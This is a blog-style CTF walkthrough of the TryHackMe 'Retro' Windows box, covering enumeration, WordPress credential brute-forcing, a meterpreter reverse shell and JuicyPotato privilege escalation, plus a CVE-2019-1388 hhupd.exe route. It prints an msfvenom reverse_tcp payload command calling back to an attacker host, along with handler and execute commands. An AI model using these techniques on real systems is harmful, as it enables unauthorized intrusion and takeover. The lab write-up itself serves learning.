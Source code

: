 ```yaml
---
layout: single
classes: #wide
title: "Try Hack Me - REtro"
toc: true
toc_sticky: false
author_profile: true
collection: posts
categories: [CTF, Try Hack Me]
tags: [certificates, nc, linux, nmap]
---
```


![title](/assets/images/retro/title.png)  
About this box: A windows IIS server with some pretty straightforward logic. Or so I thought..

# Intro
This box on the outside looks pretty simple. An IIS server with a `/retro` endpoint that is findable with a nmap scan. However, what was very interesting about this machine is I couldn't get a persistant shell for the life of me. Meterpreter worked, however shells would die upon spawning.

Anyhow let us begin :smiling_imp:

# Enumeration
Upon navigating to the ip of the machine, we are presented with a MS-IIS server. Recently MS pushed an update allowing for powershell to be ran on an endpoint. However, for this box that doesn't present to be the case.

Nmap, tells us we have 2 ports an RDP on port 3389, and the IIS server that we initially found on 80.
![nmap](/assets/images/retro/nmap.png)

Running a gobuster on the IIS server, finds us a `/retro` endpoint. This endpoint allows us to ge tthe login credentials for the rdp and wordpress server.

![retro](/assets/images/retro/retro.png)

The main user of this wordpress site writes a lot about how cool he thinks the retro exploits were. Reading through his posts, we see this post:
![wade](/assets/images/retro/wade.png)

Now, if you haven't seen the movie... The main characters alias in the world of the OASIS is parzival. Whipping up a custom wordlist (because he said he mispelled it a lot in his post) I brute forced with wpscan. 

This left us with the credentials `Wade:parzival`. The brute force wasn't all that necessary due to wade leaving a comment on his own post saying how to spell said user name. However I thought it would be interesting to try to create a custom wordlist with cewl and ai. 

# Rev shell
When attempting these challenges I need to think about what I have access to a little more. In the past, I have utilized wordpresses theme php to make a reverse shell. Spacing that there was RDP ACCESS!!!!

So, I did just that. With tampermonkey's php reverse shell, I got into the box... and then was kicked out.

This machine didn't like shells. They would spawn then terminate immediately. Or, they would hang. I ultimately used msfvenom to make a php payload and then used msfconsole to listen for the request. Meterpreter was the only kind of shell I could get. And after getting it, I couldn't spawn shells :sob:

# /get priv

Now with the shell out of the way, it was time for priv-esc. Looking up the system information with sysinfo in meterpreter I now knew that I was on a 2016 windows server. And the cool thing about these servers if we have the permission `seimpersonateprivilege` we can run the mallicious potato :potato:

Running `getpriv` within our meterpreter shell we can see that we have the `seimpersonateprivilege` set on our user of the IIS server.

![priv](/assets/images/retro/priv.png)

Time to upload the potato!!! (you can get it [here](https://github.com/ohpe/juicy-potato))
* `upload potato.exe` 

Now its time to make the payload:
`msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.13.53.1 LPORT=8888 -f exe -o 8888payload.exe`  
NOTE: make sure to replate the ip of LHOST with your own 

Make the msfconsole session:
1. `msfconsole`
2. `use exploit/multi/handler`
3. `set lhost tun0`
4. `set lport 8888`

running the potato with `execute -H -f cmd.exe -a "/c C:\Temp\JuicyPotato.exe -t * -p C:\Temp\8888payload.exe -l 443"`  
NOTE: we have to use execute since we cant spawn a shell & we are in meterpreter

# root perms

I had to wait a little while for the connection to hit, but when it did NT/ADMIN BBY.

Now with root perms, go get the user.txt and root.txt


# 2nd path
apparently this box also had a certification bug. This allowed us to utilize the `hhupd.exe` in the recycle bin to get admin as well. 

To start off we will RDP into the box with wade's credentials: `wade:parzival`

We see that there is a file `hhupd.exe` in the recycle bin.

![hhupd](/assets/images/retro/hhupd.png)

Looking up this file we find a lot of blog writeups about the vulerability `CVE-2019-1388`

Opening up chrome, we can also see a link to the page `https://nvd.nist.gov/vuln/detail/CVE-2019-1388`.

So, its safe to conclude that this file is probably what we were looking for. 

The description of this bug is:

![cve](/assets/images/retro/cve.png)

A windows certificate bug... I wonder what hhupd does then.

Running it we are presented with a login for the admin, and then there is a blue underlined string of words we can click on:

![login](/assets/images/retro/login.png)

Clicking on it twice we can see the credentials of the certificate that was used.

Opening the certificate link in the web browser (I couldn't get this part to work). We see that the page didn't load. But wait, according to [here](https://www.hackingarticles.in/retro-tryhackme-walkthrough/) the site doesn't need to be seen, just loaded.

Save the page and type in `C:\WINDOWS\system32\cmd.exe` into the explorer search bar.

And BOOM NT/Authority as the user.

# Learning
- I didn't know about the mallicious potato
- meterpreter execute command

Even though I didn't learn much, IMO it was a very fun box. Big thank you to the creator!

If you read this far, thank you for reading! I hope I could help you on your own ctf journey.

-ryu out